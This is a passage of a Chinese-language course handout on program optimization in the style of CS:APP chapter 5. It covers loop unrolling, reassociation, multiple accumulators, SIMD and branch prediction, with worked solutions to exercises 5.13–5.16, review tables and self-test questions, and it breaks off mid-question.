这一问的背景见 14.11 节。课件 p.43 中“8 个功能单元”指 Haswell 编号 0～7 的 8 个执行端口，每个端口能做好几种操作；下面的清单按操作种类统计“有几个单元能做”：加载 2 个、存储 1 个、整数运算 4 个、浮点乘法 2 个、浮点加法 1 个、浮点除法 1 个，所以加起来多于 8（见 14.11 节的常见问题框）。在 p.40 的图中，它们对应 EU 中的“Arith”“Load”“Store”“Branch”等方框，图只是示意，并没有一一画出。
性能用三个指标描述：延迟（一次运算从开始到结果可用的周期数）、发射时间（同类独立运算之间的最小间隔）、容量（能做这种运算的单元个数）；最大吞吐量是每周期“容量 / 发射时间”个。课件的表中加载/存储延迟 4、整数乘法 3、浮点乘法 5、浮点加法 3，它们的发射时间都是 1，说明这些单元是完全流水化的；整数除法和浮点除法的发射时间等于延迟（3～30、3～15），是非流水化的。默认环境的对应数值见表 4。
最后结合课件 p.42 说明功能单元流水化与非流水化的区别（图 4）。流水化的单元分成若干阶段，一个运算进入第二阶段后，第一阶段就可以接收下一个运算。mult_eg 中 a*b、a*c 相互独立，在第 1、2 周期相继开始；p1*p2 要等两者都完成，第 5 周期开始，第 7 周期结束——3 次乘法共 7 个周期，而不是 9 个。注意流水化不缩短单个运算的延迟（每个乘法仍要 3 个周期），它提高的是吞吐量，而且只有当程序中存在相互独立的运算时才能发挥作用；p1*p2 依赖前两个乘法，就必须等待。非流水化的单元一次只能处理一个运算，3 个运算串行进行要 9 个周期。除法使用较少、又很难流水化，设计者没有为它投入那么多硬件，这就是除法很慢的原因。
2（5）基于课件第 44～47 页，分析“2x1”版的优化方式和效果。
分析的起点是 combine4（详见 14.12–14.13 节）：它的 CPE 等于运算的延迟（课件 p.44），因为所有运算排成一条顺序相关的链（p.45）。2×1 试图改善这一点，每次迭代处理两个元素，x = (x OP d[i]) OP d[i+1]，主循环上界为 length – 1，剩余元素逐个处理（p.46）。默认环境上 double 乘法时 gcc -O1 生成的内层循环是：
.L351: # 2×1（combine5）内层循环
mulsd (%rdx), %xmm0 # x = x * d[i]
mulsd 8(%rdx), %xmm0 # x = x * d[i+1]，要等上一条的结果
addq $16, %rdx
cmpq %rcx, %rdx
jne .L351这样展开的效果如何呢？从课件 p.47（表 6）看，循环控制的指令减半，Haswell 上整数加法从 1.27 降到 1.01，达到延迟界限；其余三种运算不变。原因是两个 mulsd 都写 %xmm0，第二个必须等第一个，关键路径上仍是每个元素一个运算，顺序相关没有被打破。默认环境上四种运算都与 combine4 相同（1.00、3.00、2.00、3.00）。结论：循环展开只能消除循环开销，不能突破延迟界限。
2（6）基于课件第 48～50 页，分析“2x1a”版的优化方式和效果。
2×1a 与 2×1 的区别只是括号的位置：x = x OP (d[i] OP d[i+1])（详见 14.14 节）。gcc -O1 生成的内层循环如下：
.L369: # 2×1a（combine7）内层循环
movsd (%rdx), %xmm0 # t = d[i]
mulsd 8(%rdx), %xmm0 # t = d[i] * d[i+1]：不依赖 x，可以提前做
mulsd %xmm0, %xmm1 # x = x * t：唯一在关键路径上的运算
addq $16, %rdx
cmpq %rcx, %rdx
jne .L369仅仅调换一对括号，效果却很明显（课件 p.49）：Haswell 上整数乘法、浮点加法、浮点乘法都几乎减半（1.51、1.51、2.51），默认环境上四种都恰好减半（0.50、1.50、1.00、1.50）。原因（课件 p.50，图 6（b））：每次迭代的两个运算中只有一个在跨迭代的链上，n 个元素的关键路径上只有 n/2 个运算，总时间约 (n/2 + 1) × D，CPE = D/2；d[i] OP d[i+1] 可以在上一次迭代还没结束时就开始。代价：改变了结合顺序。整数运算满足结合律，结果不变；浮点运算不满足，结果可能不同（例如 (1e20 + (–1e20)) + 3.14 = 3.14，而 1e20 + ((–1e20) + 3.14) = 0），所以编译器不会自动做，由程序员决定是否接受。
2（7）基于课件第 51～53 页，分析“2x2”版的优化方式和效果。
2×2 换了一种打破相关的办法（详见 14.15 节）：两个累积变量 x0、x1 分别累积偶数下标和奇数下标的元素，最后 x0 OP x1。gcc -O1 生成的内层循环中，两个 mulsd 分别写 %xmm0 和 %xmm1，互不相关：
.L360: # 2×2（combine6）内层循环
mulsd (%rdx), %xmm0 # x0 = x0 * d[i]
mulsd 8(%rdx), %xmm1 # x1 = x1 * d[i+1]：与上一条无关
addq $16, %rdx
cmpq %rcx, %rdx
jne .L360和 2×1a 相比，它的效果如何？课件 p.52 的结果是 Haswell 上 0.81、1.51、1.51、2.51，默认环境上 0.50、1.50、1.00、1.50。两条链各有 n/2 个运算，交错进入流水化的功能单元，CPE = D/2（课件 p.53）。对整数加法，Haswell 上 2×2 比 2×1a 更好（0.81 对 1.01），课件解释为能利用两个加载单元。2×2 本质上也是重新结合，对浮点数同样可能改变结果。课件 p.53 最后问“What Now?”——下一步就是继续增加累积变量的个数（研讨题 2（8））。
2（8）基于课件第 54～57 页，解读该评测方法和评测结果。
先说评测方法（课件 p.54）：把循环展开 L 次，同时用 K 个累积变量（L 是 K 的倍数），对每一组 (L, K) 测 CPE，排成一张以 K 为行、L 为列的表。课件 p.55、p.56 分别是 Haswell 上 double 乘法（延迟界限 5.00、吞吐量界限 0.50）和整数加法（延迟界限 1.00、吞吐量界限 0.50，课件写成 1.00 是笔误，见 14.16 节）的结果。CPE 的测法见 14.9 节的常见问题框。
再看评测结果，读表的要点有三。第一，行比列重要：K = 1 那一行无论 L 多大，浮点乘法都是 5.01——只展开不增加累积变量，打不破顺序相关。第二，K 增大，CPE 约按 D/K 下降：浮点乘法 K = 2 时 2.51、K = 3 时 1.67、K = 4 时 1.25、K = 6 时 0.84、K = 8 时 0.63，正好是 5/K。第三，下降到吞吐量界限为止：K = 10 时 0.51，再增加 K 也不会更好（K = 12 时 0.52）。需要的 K 由 K ≥ C × Lop 决定：浮点乘法 C = 2、Lop = 5，K ≥ 10。整数加法的延迟只有 1，K = 2 就降到 0.81，最好 0.54，受 2 个加载单元限制。课件 p.57 汇总最好结果 0.54、1.01、1.01、0.52，只受功能单元的吞吐量限制，比未优化的 combine1 最多快 42 倍。
默认环境上的重测结果见表 7和图 7，规律相同：double 乘法（延迟 3、2 个乘法器）K ≥ 6 时接近 0.50，long 加法 K ≥ 4 时接近 3 个加载单元决定的 0.33。默认环境还显示了课件没有提到的局限：K 增大到 16 以上时，累积变量超过了寄存器的个数，发生寄存器溢出，CPE 反而回升。
2（9）基于课件第 58～60 页，解读 SIMD 操作的优化方式和效果。
SIMD 的思路是让一条指令同时处理多个数据（详见 14.17 节）。AVX2 的 16 个 YMM 寄存器各 32 字节，可装 8 个 int/float 或 4 个 double（课件 p.58）；一条 SIMD 指令对其中所有分量同时运算，如 vaddps（8 个单精度，课件 p.59 误写为 vaddsd）、vaddpd（4 个双精度）。把 combine 改写成向量版，相当于每个向量累积变量一次并入 8 个或 4 个元素，再结合多个向量累积变量隐藏延迟。
至于效果，课件 p.60（表 8）显示，Haswell 上向量版最好达到 0.06、0.24、0.25、0.16，比标量最好的结果快 3～9 倍，其中整数加法、浮点加法达到了向量吞吐量界限。默认环境上达到 0.06、0.15、0.13、0.13，浮点约提高 4 倍，与“每个向量 4 个 double”一致。还要注意两点：向量版同样需要多个累积变量，只用一个向量累积变量时仍被延迟卡住（浮点乘法 0.77）；gcc -O3 -mavx2 会自动向量化整数版，但不会自动向量化浮点的累积（那等于重新结合），要加 -ffast-math 才会。（课件 p.60 表中整数加法的延迟界限写成 0.50，应为 1.00。）
2（10）基于课件第 61～68 页，简要分析转移指令带来的性能损失、优化方式和效果。
转移指令之所以带来性能损失（详见 14.18 节），是因为指令控制单元必须提前取指，遇到条件分支时还不知道条件，只能预测一个方向、投机执行（p.61–64）；预测错误时，错误路径上已经执行的操作全部作废，从正确地址重新取指（p.65–67），浪费许多个周期。课件的循环例子中，向量长度 100，最后一次 jne 预测“跳转”而实际不跳转，i = 100、101 的指令被投机执行后作废。默认环境上，一个方向随机的分支使每个元素从约 1.0 个周期变成约 12～13.5 个周期，估算每次预测失败的代价约 20 多个周期。
不过这种损失并不常见。课件 p.68 指出，默认规则是向后分支预测跳转（循环）、向前分支预测不跳转（if），实际的预测器准确率在 95% 以上，大多数分支（循环的回跳、从不越界的边界检查）几乎没有代价。
对于少数方向随数据随机变化的分支，优化的办法是写成编译器能翻译为条件传送的形式——先把可能的结果都算出来，再无条件地写回（教材 5.11.2 节的 minmax2）。默认环境上，minmax1（分支）对随机数据约 13～14.7 个周期、对可预测数据约 1.3～1.5，minmax2（条件传送）无论数据如何都约 2.3～2.6：数据可预测时分支更快，数据不可预测时条件传送稳定得多。此外，对数据排序（课件 p.68 链接中的例子）也能让分支变得可预测，有序数据上同一段代码每个元素只要约 1.0 个周期。
第三部分 作业题解答：5.13–5.16#
四道作业题围绕同一个计算——两个向量的内积。5.13 用 14.12 节的数据流图分析 combine4 风格的 inner4，5.14–5.16 分别是 6×1、6×6、6×1a 三种展开，对应 14.13–14.16 节。题目数据按中文版（第 393–394 页），与英文国际版逐字核对过，两版相同；题目给出的 CPE 是教材参考机 Haswell 上的测量值。讲义把四个版本都写成 C 程序，在默认环境上实测（gcc 13 -O1，long 与 double），结果见本部分末的表 15。
5.13 inner4 的关键路径#
5.13假设我们想编写一个计算两个向量 u 和 v 内积的过程。这个函数的一个抽象版本对整数和浮点数类型，在 x86-64 上 CPE 等于 14～18。通过进行与我们将抽象程序 combine1 变换为更有效的 combine4 相同类型的变换，我们得到如下代码（见下）。测试显示，对于整数这个函数的 CPE 等于 1.50，对于浮点数据 CPE 等于 3.00。对于数据类型 double，内循环的 x86-64 汇编代码如下所示（见下）。假设功能单元的特性如图 5-12 所示。A. 按照图 5-13 和图 5-14 的风格，画出这个指令序列会如何被译码成操作，并给出它们之间的数据相关如何形成一条操作的关键路径。B. 对于数据类型 double，这条关键路径决定的 CPE 的下界是什么？C. 假设对于整数代码也有类似的指令序列，对于整数数据的关键路径决定的 CPE 的下界是什么？D. 请解释虽然乘法操作需要 5 个时钟周期，但是为什么两个浮点版本的 CPE 都是 3.00。
/* Inner product. Accumulate in temporary */
void inner4(vec_ptr u, vec_ptr v, data_t *dest)
{
long i;
long length = vec_length(u);
data_t *udata = get_vec_start(u);
data_t *vdata = get_vec_start(v);
data_t sum = (data_t) 0;
for (i = 0; i < length; i++) {
sum = sum + udata[i] * vdata[i];
}
*dest = sum;
}
# Inner loop of inner4. data_t = double, OP = *
# udata in %rbp, vdata in %rax, sum in %xmm0
# i in %rcx, limit in %rbx
.L15: # loop:
vmovsd 0(%rbp,%rcx,8), %xmm1 # Get udata[i]
vmulsd (%rax,%rcx,8), %xmm1, %xmm1 # Multiply by vdata[i]
vaddsd %xmm1, %xmm0, %xmm0 # Add to sum
addq $1, %rcx # Increment i
cmpq %rbx, %rcx # Compare i:limit
jne .L15 # If !=, goto loopA. 先按 14.12 节的方法给寄存器分类。%rbp（udata）、%rax（vdata）、%rbx（limit）在循环中只读不写，是只读寄存器；%xmm1 在每次迭代中先被写、后被读，不把值带到下一次迭代，是局部寄存器；%rcx（i）和 %xmm0（sum）在一次迭代中被读、又被写入新值供下一次迭代使用，是循环寄存器。
6 条指令被译码成 7 个操作（图 12（a））：vmovsd 是一个 load（地址由 %rbp 和 %rcx 算出，结果放入 %xmm1）；vmulsd 带一个内存操作数，拆成一个 load（地址由 %rax 和 %rcx 算出）和一个 mul（与 %xmm1 相乘，结果写回 %xmm1）；vaddsd 是一个浮点 add，读 %xmm1 和 %xmm0，结果写入 %xmm0；addq 是一个整数 add，更新 %rcx；cmpq 是一个 cmp，读 %rbx 和新的 %rcx，设置条件码；jne 读条件码。
只保留循环寄存器之间的相关，把每次迭代画成一个模板、再首尾相接（图 12（b）），跨迭代的相关只有两条链：%rcx 上的整数加法链，每次迭代一个整数加法；%xmm0 上的浮点加法链，每次迭代一个 vaddsd。两个 load 和 mul 依赖本次迭代的 %rcx，但不依赖上一次迭代的 sum，它们挂在链的“旁边”，不在跨迭代的链上。浮点加法的延迟（3）大于整数加法（1），所以关键路径是 %xmm0 上的浮点加法链。
图 12 作业 5.13：inner4（double）的数据流图。红色是关键路径——只有浮点加法串成跨迭代的链，乘法不在链上
B. 关键路径上每个元素一个浮点加法，Haswell 上浮点加法的延迟是 3 个周期（图 5-12），所以 double 版本的 CPE 下界是 3.00，与测得的 3.00 一致。
C. 整数版的指令序列类似，关键路径同样是 sum 上的加法链，整数加法的延迟是 1 个周期，所以关键路径决定的 CPE 下界是 1.00。测得的 1.50 高于这个下界，说明整数版的瓶颈已经不是关键路径，而是其他资源——每个元素要做 2 次加载，还要用唯一的整数乘法器做一次乘法，加上循环控制指令，这些操作争用有限的功能单元。
D. 乘法虽然要 5 个周期，但它不在关键路径上。第 i 次迭代的乘法只依赖第 i 次迭代加载的两个数，与 sum 无关；由于 %rcx 链每个周期就能前进一次，处理器可以提前加载后面若干次迭代的数据、提前开始它们的乘法。浮点乘法器是完全流水化的（发射时间 1），这些乘法在乘法器中重叠进行，每个周期都能开始一个新的。于是每次迭代的乘法结果在 vaddsd 需要它之前早已准备好，乘法的 5 个周期延迟被完全“隐藏”，总时间只由加法链决定：每个元素 3 个周期。打个比方：流水线上加工零件的总节拍由最慢、且必须串行的那道工序决定，与每个零件在其他工序上停留多久无关。
在默认环境上实测，double 版的 CPE 是 1.99，正好等于这台机器浮点加法的延迟 2（浮点乘法的延迟 3 同样被隐藏）；long 版 1.09，接近 1.00——它的整数加法延迟只有 1，限制它的是只有一个整数乘法器、每周期最多做一次乘法，即吞吐量界限 1.00。
5.14 6×1 展开#
5.14编写习题 5.13 中描述的内积过程的一个版本，使用 6×1 循环展开。对于 x86-64，我们对这个展开的版本的测试得到，对整数数据 CPE 为 1.07，而对两种浮点数据 CPE 仍然为 3.01。A. 解释为什么在 Intel Core i7 Haswell 上运行的任何（标量）版本的内积过程都不能达到比 1.00 更小的 CPE 了。B. 解释为什么对浮点数据的性能不会通过循环展开而得到提高。
/* 6×1 展开：每次迭代处理 6 个元素，仍只有一个累积变量 */
void inner6x1(vec_ptr u, vec_ptr v, data_t *dest)
{
long i, length = vec_length(u), limit = length - 5;
data_t *ud = get_vec_start(u), *vd = get_vec_start(v);
data_t sum = (data_t) 0;
for (i = 0; i < limit; i += 6) {
sum = sum + ud[i] * vd[i];
sum = sum + ud[i+1] * vd[i+1];
sum = sum + ud[i+2] * vd[i+2];
sum = sum + ud[i+3] * vd[i+3];
sum = sum + ud[i+4] * vd[i+4];
sum = sum + ud[i+5] * vd[i+5];
}
for (; i < length; i++) /* 剩余不足 6 个的元素 */
sum = sum + ud[i] * vd[i];
*dest = sum;
}A. 内积的每个元素都要从内存读两个数：udata[i] 和 vdata[i]。任何标量版本都无法避免这 2n 次加载。Haswell 只有 2 个加载单元，每个周期最多完成 2 次加载，所以处理一个元素至少要 1 个周期，CPE 不可能低于 1.00——这是加载单元决定的吞吐量界限。对整数数据还有第二个同样大小的界限：每个元素要做一次整数乘法，而 Haswell 只有一个整数乘法器，发射时间为 1，每周期最多一次乘法。
B. 6×1 展开只减少了循环控制的开销，没有改变计算的结构：一次迭代中的 6 条语句都是 sum = sum + …，第 2 条的加法要等第 1 条的结果，n 个浮点加法仍然排成一条顺序相关的链（14.13 节，与 2×1 相同）。关键路径的长度仍是 n × 3 个周期，CPE 仍为 3.00 左右。整数版之所以从 1.50 改善到 1.07，是因为它原来的瓶颈本来就不是关键路径（整数加法延迟只有 1），而是循环开销等其他指令，展开正好减少了这些开销，使 CPE 逼近 A 中的界限 1.00。
默认环境上的实测结论相同：long 版 0.98，double 版 2.00，后者仍等于这台机器浮点加法的延迟 2。
5.15 6×6 展开#
5.15编写习题 5.13 中描述的内积过程的一个版本，使用 6×6 循环展开。对于 x86-64，我们对这个函数的测试得到对整数数据的 CPE 为 1.06，对浮点数据的 CPE 为 1.01。什么因素制约了性能达到 CPE 等于 1.00？
/* 6×6 展开：6 个累积变量，各自累积下标模 6 余 0～5 的元素 */
void inner6x6(vec_ptr u, vec_ptr v, data_t *dest)
{
long i, length = vec_length(u), limit = length - 5;
data_t *ud = get_vec_start(u), *vd = get_vec_start(v);
data_t s0 = 0, s1 = 0, s2 = 0, s3 = 0, s4 = 0, s5 = 0;
for (i = 0; i < limit; i += 6) {
s0 = s0 + ud[i] * vd[i];
s1 = s1 + ud[i+1] * vd[i+1];
s2 = s2 + ud[i+2] * vd[i+2];
s3 = s3 + ud[i+3] * vd[i+3];
s4 = s4 + ud[i+4] * vd[i+4];
s5 = s5 + ud[i+5] * vd[i+5];
}
for (; i < length; i++)
s0 = s0 + ud[i] * vd[i];
*dest = s0 + s1 + s2 + s3 + s4 + s5;
}六个累积变量形成六条相互独立的加法链，每条链上只有 n/6 个加法，关键路径的延迟界限降到 3/6 = 0.50，已经不是瓶颈。制约性能的是加载单元的吞吐量：每个元素要加载 2 个数，2 个加载单元每周期最多加载 2 个数，所以 CPE 不能低于 1.00（即 5.14 A 的界限）。整数版另外还受唯一的整数乘法器限制，同样是 1.00。测得的 1.01、1.06 已经贴近这个界限。
换到默认环境，double 版降到 0.75，long 版仍是 1.00，两者的差别恰好说明“界限随机器而变”：这台机器每周期能做 3 次加载、2 次浮点乘法和 2 次浮点加法，double 版的界限降到约 2/3，实测 0.75；而它仍然只有一个整数乘法器，long 版的界限仍是 1.00。
5.16 6×1a 展开#
5.16编写习题 5.13 中描述的内积过程的一个版本，使用 6×1a 循环展开产生更高的并行性。我们对这个函数的测试得到对整数数据的 CPE 为 1.10，对浮点数据的 CPE 为 1.05。
/* 6×1a 展开：先把 6 个乘积加在一起，再并入唯一的累积变量 sum */
void inner6x1a(vec_ptr u, vec_ptr v, data_t *dest)
{
long i, length = vec_length(u), limit = length - 5;
data_t *ud = get_vec_start(u), *vd = get_vec_start(v);
data_t sum = (data_t) 0;
for (i = 0; i < limit; i += 6) {
sum = sum + ((ud[i] * vd[i] + ud[i+1] * vd[i+1])
+ (ud[i+2] * vd[i+2] + ud[i+3] * vd[i+3])
+ (ud[i+4] * vd[i+4] + ud[i+5] * vd[i+5]));
}
for (; i < length; i++)
sum = sum + ud[i] * vd[i];
*dest = sum;
}关键是括号的位置：6 个乘积先在括号内两两相加，括号内的计算不依赖 sum，可以与上一次迭代重叠进行；跨迭代的链上每 6 个元素只有一个加法（sum + …），关键路径的延迟界限降到 3/6 = 0.50。如果写成 sum = sum + u0·v0 + u1·v1 + …（C 的加法从左向右结合），就又变回了 6×1，没有任何改善。与 5.15 一样，这时的瓶颈是加载单元（整数版还有乘法器）决定的 1.00，测得 1.10、1.05。
本题与 5.15 都是用重新结合打破顺序相关（14.14、14.15 节），对整数结果不变；对浮点数，求和的顺序变了，结果可能与 inner4 有微小差别，需要程序员判断能否接受。
在默认环境上，6×1a 的结果与 6×6 相同（long 版 1.00，double 版 0.75），同样贴近各自的吞吐量界限。
表 15 内积四个版本的 CPE（教材为题目给出的 Haswell 数据；实测为默认环境 gcc 13 -O1）
| 版本 | 教材 整数 | 教材 浮点 | 实测 long | 实测 double | 题号 |
|---|---|---|---|---|---|
| inner4 | 1.50 | 3.00 | 1.09 | 1.99 | 5.13 |
| 6×1 | 1.07 | 3.01 | 0.98 | 2.00 | 5.14 |
| 6×6 | 1.06 | 1.01 | 1.00 | 0.75 | 5.15 |
| 6×1a | 1.10 | 1.05 | 1.00 | 0.75 | 5.16 |
| 关键路径（延迟）界限，inner4 与 6×1 | 1.00 | 3.00 | 1.00 | 2.00 | |
| 吞吐量界限 | 1.00 | 1.00 | 1.00 | 约 0.67 |
第四部分 复习速查#
4.1 程序优化一页纸#
表 16 编译器的优化与妨碍优化的因素
| 项目 | 要点 | 例子与实测 |
|---|---|---|
| 代码移动 | 结果每次都相同的计算移到循环外（预计算） | set_row 的 n*i；gcc -O1 会做，前提是能证明结果不变 |
| 强度削减 | 移位、加法代替乘除；乘积序列 n*i 改为累加 ni += n | 乘除常数：gcc -O0 起就做（x/10 变成乘以魔数）；循环中的乘积序列：-O1 起做 |
| 公共子表达式 | 重复计算的部分只算一次 | 课件 p.9：3 次乘法变 1 次；三维 6 邻居：-O0 12 次、-O1 4 次、手工 3 次 |
| 编译器的根本约束 | 不能改变程序的行为，哪怕只在极端情况下；拿不准就保守 | 分析多在过程内、基于静态信息 |
| 过程调用 | 被调函数是黑盒：可能有副作用，可能对同样参数返回不同值 | lower1 每次调用 strlen，O(N²)；gcc -O1～-O3 都不移动；补救：内联或自己移动 |
| 内存别名 | 两个指针可能指向同一位置，不能把内存值放在寄存器里反复用 | sum_rows1 每次读写 b[i]；B = A + 3 时结果 [3, 22, 224]；补救：局部变量累积、restrict |
表 17 指令级并行部分的结论
| 项目 | 结论 |
|---|---|
| CPE | T = CPE × n + 固定开销；CPE 是斜率，以时钟周期为单位 |
| combine1→4 | 打开优化；移出 vec_length；直接访问数组（几乎无效）；在局部变量中累积（效果最大，消除经过内存的相关链）；combine4 达到延迟界限 |
| 现代处理器 | 指令控制单元（取指、分支预测、译码成操作、寄存器重命名）+ 执行单元（多个流水化功能单元，乱序执行）+ 退役单元（按序提交，预测错误则作废） |
| 三个参数 | 延迟、发射时间、容量；最大吞吐量 = 容量 / 发射时间；发射时间 1 = 完全流水化，除法不流水化 |
| 延迟界限 | 运算必须顺序进行时，CPE ≥ 运算延迟；由数据流图中跨迭代的关键路径决定 |
| 吞吐量界限 | CPE ≥ 1 /（每周期能完成的该运算个数）；还要考虑加载单元：Haswell 2 个 → 0.50，默认环境 3 个 → 0.33 |
| 2×1 展开 | 只减少循环开销，关键路径不变；对已在延迟界限上的运算无效 |
| 2×1a 重新结合 | x = x OP (d[i] OP d[i+1])，链上运算减半，CPE = D/2；浮点结果可能改变 |
| 2×2 多累积变量 | 两条独立的链交错执行，CPE = D/2；也是一种重新结合 |
| L × K | 只有 K（累积变量个数）决定能否打破相关；CPE ≈ max(D/K, 吞吐量界限)；需要 K ≥ C × Lop；K 太大会寄存器溢出 |
| SIMD | 一条指令处理 8 个 int 或 4 个 double；同样需要多个向量累积变量；gcc 不会自动向量化浮点累积（除非 -ffast-math） |
| 分支 | 预测正确几乎无代价；预测错误约 20 个周期；不可预测的分支改写成条件传送（先算出结果，再无条件写回） |
| Y86-64 PIPE（14.20） | CPE = 每元素指令数 + 气泡数；气泡来自加载/使用（1）、预测错误（2）、ret（3）；对策：调度、cmov、内联、展开（5 + 3/k）；多累积变量无用；iaddq 省指令和寄存器；预测策略要与分支方向配合 |
表 18 汇总了两台机器上的关键数值。
表 18 关键数值（整数为 long，浮点为 double；单位：周期/元素）
| 项目 | Haswell 整数 + | Haswell 整数 × | Haswell 浮点 + | Haswell 浮点 × | 默认环境 整数 + | 默认环境 整数 × | 默认环境 浮点 + | 默认环境 浮点 × |
|---|---|---|---|---|---|---|---|---|
| 运算延迟 | 1 | 3 | 3 | 5 | 1 | 3 | 2 | 3 |
| combine4 | 1.27 | 3.01 | 3.01 | 5.01 | 1.00 | 3.00 | 2.00 | 3.00 |
| 2×1a、2×2 | 1.01 / 0.81 | 1.51 | 1.51 | 2.51 | 0.50 | 1.50 | 1.00 | 1.50 |
| 标量最好 | 0.54 | 1.01 | 1.01 | 0.52 | 0.34 | 1.00 | 0.50 | 0.50 |
| 吞吐量界限 | 0.50 | 1.00 | 1.00 | 0.50 | 0.33 | 1.00 | 0.50 | 0.50 |
| 向量最好（int / double） | 0.06 | 0.24 | 0.25 | 0.16 | 0.06 | 0.15 | 0.13 | 0.13 |
4.2 易错点#
⚠ 本讲最容易混淆的地方
最常见的误解是以为流水化能缩短延迟。流水化的乘法器每个周期都能开始一个新乘法，但每个乘法仍要 3（或 5）个周期；它提高的只是吞吐量，而且只有存在相互独立的运算时才派得上用场。与此相关的另一个误解是“展开就是并行”：2×1 把两个元素放进一次迭代，但它们仍串在同一个累积变量上，关键路径并没有变；只有多个累积变量或重新结合才能缩短它。
其次要分清两个界限。延迟界限通常大于吞吐量界限，优化的过程就是从前者一路降到后者；算吞吐量界限时要同时考虑运算单元和加载单元，取较大者。而找关键路径时只看跨迭代的相关——作业 5.13 中乘法的延迟虽长，但每次迭代的乘法只依赖本次加载的数据，不在跨迭代的链上，所以不影响 CPE。
最后是关于“能不能改”的判断。重新结合对整数是安全的（补码运算即使溢出也满足结合律），对浮点不安全，所以编译器会对整数做、不会对浮点做（除非加 -ffast-math）。但编译器不敢做，并不等于不该做：它不移动 strlen、不消除 b[i] 的读写，是因为必须考虑副作用和别名，程序员确知这些情况不会发生时，就应该自己动手。改写时还要留意括号：sum = sum + a + b 按 C 的从左到右结合是 (sum + a) + b，与 sum + (a + b) 的关键路径完全不同。
4.3 术语对照#
表 19 第 14 讲术语
| 英文 | 中文 | 一句话解释 |
|---|---|---|
| code motion / precomputation | 代码移动 / 预计算 | 把结果不变的计算移到执行次数少的地方 |
| strength reduction | 强度削减 | 用代价低的运算代替代价高的运算 |
| common subexpression | 公共子表达式 | 多处出现的相同计算，只算一次 |
| optimization blocker | 妨碍优化的因素 | 过程调用的副作用、内存别名 |
| memory aliasing | 内存别名 | 两个不同的引用指向同一内存位置 |
| inline substitution | 内联替换 | 把被调函数的代码直接展开到调用处 |
| CPE (cycles per element) | 每元素的周期数 | 处理一个元素平均需要的时钟周期 |
| superscalar | 超标量 | 每个周期发射、执行多条指令 |
| out-of-order execution | 乱序执行 | 操作数准备好就执行，不必按程序顺序 |
| register renaming | 寄存器重命名 | 为每个结果分配标签，消除假相关 |
| retirement unit | 退役单元 | 按程序顺序确认并提交指令的结果 |
| speculative execution | 投机执行 | 按预测的方向先执行，确认后才提交 |
| functional unit | 功能单元 | 执行某类运算的硬件单元 |
| latency / issue time / capacity | 延迟 / 发射时间 / 容量 | 刻画功能单元性能的三个参数 |
| latency bound / throughput bound | 延迟界限 / 吞吐量界限 | CPE 的两个下界 |
| critical path | 关键路径 | 数据流图中决定总时间的最长相关链 |
| loop unrolling | 循环展开 | 每次迭代处理多个元素 |
| reassociation | 重新结合 | 改变运算的结合顺序以缩短关键路径 |
| multiple accumulators | 多个累积变量 | 用多条独立的链并行累积 |
| register spilling | 寄存器溢出 | 寄存器不够，变量被放到栈上 |
| SIMD / vector instruction | 单指令多数据 / 向量指令 | 一条指令同时处理多个数据 |
| branch prediction / misprediction penalty | 分支预测 / 预测错误处罚 | 猜测分支方向；猜错要付出的周期数 |
| conditional move | 条件传送 | 按条件选择两个已算出的值之一，无分支 |
第五部分 自测题#
以下题目为新编，凡涉及编译结果和 CPE 的，都在默认环境上用 gcc 13 编译、实测核对过；第 11、12 题在 14.20 节的 PIPE 模型上核对。答案在本部分末尾。
1．下面的函数用 gcc -O1 编译。循环中有两部分在每次迭代中“看上去”都不变：k[0] 和 (double)n * n。编译器会把哪一部分移出循环？为什么另一部分不会被移出？
void g(double *a, long n, double *k) {
for (long i = 0; i < n; i++)
a[i] = a[i] * k[0] + (double)n * n;
}2．下面的函数想不借助临时变量交换两个数。（a）调用时 x = 3、y = 5，结果是什么？（b）如果调用 swap_as(&z, &z)，z 的初值为 3，结果是什么？（c）编译器能否把它优化成“读出两个值、交叉写回”？
void swap_as(long *xp, long *yp) {
*xp = *xp + *yp;
*yp = *xp - *yp;
*xp = *xp - *yp;
}3．某函数处理长度为 n 的数组，测得 n = 100 时 520 个周期，n = 200 时 920 个周期，n = 400 时 1720 个周期。求它的 CPE 和固定开销。
4．某处理器的参数如下：整数加法延迟 1、4 个单元；整数乘法延迟 4、1 个单元；浮点加法延迟 4、2 个单元；浮点乘法延迟 4、2 个单元；所有单元都完全流水化；有 2 个加载单元。（a）求 combine 系列在四种情况（整数 +、整数 ×、浮点 +、浮点 ×）下的延迟界限和吞吐量界限。（b）用 k × k 展开时，浮点加法至少要几个累积变量才能达到吞吐量界限？
5．下面的循环在 Haswell（浮点加法延迟 3、浮点乘法延迟 5）上的 CPE 约为多少？在默认环境（浮点加法延迟 2、浮点乘法延迟 3）上呢？说明关键路径。
double x = 1, y = 0;
for (long i = 0; i < n; i++) {
x = x * a[i]; /* x 是前缀积 */
y = y + x; /* y 累加前缀积 */
}6．设浮点乘法的延迟为 4 个周期、有 2 个完全流水化的乘法器，加载不是瓶颈。分别估计 double 乘法的 combine4、2×1、2×1a、2×2 的 CPE，以及要达到吞吐量界限所需的最少累积变量个数。
7．把 double 加法的循环展开 4 次，每次迭代取出 w = d[i]、x = d[i+1]、y = d[i+2]、z = d[i+3]，下面四种写法的关键路径上每次迭代各有几个加法？在 Haswell（浮点加法延迟 3、1 个加法器）上 CPE 各约为多少？
（a）acc = ((acc + w) + x) + (y + z); （b）acc = acc + ((w + x) + (y + z));
（c）acc = (acc + (w + x)) + (y + z); （d）acc = acc + (w + (x + (y + z)));
8．用 AVX2 的 256 位向量计算 double 数组的乘积。设向量乘法延迟 4 个周期、有 2 个完全流水化的向量乘法单元。（a）一个向量装几个 double？（b）至少要几个向量累积变量才能达到吞吐量界限？此时 CPE 的下界是多少？
9．某段代码中有一个条件分支。数据有序时 CPE 为 1.0；数据随机、分支有一半的概率预测错误时 CPE 为 12.0。（a）估算一次预测错误的处罚。（b）如果改写成条件传送，CPE 为 2.0，与数据无关。当预测错误率低于多少时，保留分支更快？
10．在 x86-64 上对 long 加法做 k × k 展开，k 从 1 增加到 24。（a）为什么 k 增大时 CPE 先下降？最终会降到什么数值附近（分别回答 Haswell 和默认环境）？（b）为什么 k 增大到 16 以上时 CPE 反而回升？
11．下面是 Y86-64 上数组求和的循环（%rdi 为数组指针，%rsi 为元素个数，结果在 %rax），处理器是 pipe-full.hcl 加上 iaddq 的 PIPE，条件跳转总是预测跳转。
loop:
mrmovq (%rdi), %r10
addq %r10, %rax
iaddq $8, %rdi
iaddq $-1, %rsi
